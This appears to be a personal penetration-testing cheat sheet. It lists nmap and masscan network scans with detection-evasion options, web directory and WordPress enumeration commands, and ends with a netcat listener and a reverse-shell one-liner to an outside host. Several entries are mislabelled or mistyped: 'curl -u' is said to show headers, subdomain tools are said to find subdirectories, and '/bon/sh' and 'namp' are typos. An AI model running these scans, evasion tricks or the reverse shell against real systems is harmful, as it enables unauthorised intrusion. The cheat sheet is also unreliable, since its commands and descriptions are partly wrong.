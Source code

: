 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

nmap -sn 192.168.0.1/24 - scans network for all hosts  
nmap -sV <ip> - does a service scan on a target ip  
nmap -sC <ip> - does a scripts scan on a target ip (this and the above can be combined with -sVC)   
nmap --script vuln <ip> - does a quick vulnerability scan on a host  
namp -A <ip> - does a deep scan for everything above.  
other options -f (fragment, make it harder for detection), --source 53 (make it appear as if coming from dns port),  

masscan 192.168.0.1/24 -p0-65535 --rate=10000 - scans network for all hosts, but fast  
masscan 192.168.0.1/24 -p23 --rate=1000 - does a quick scan for all telnet open  
other options --randomize-hosts (dont scan in order)  

curl -u http://website - display website header and info  

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  

sublist3r -d http://website - enumerates subdirectories  

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   
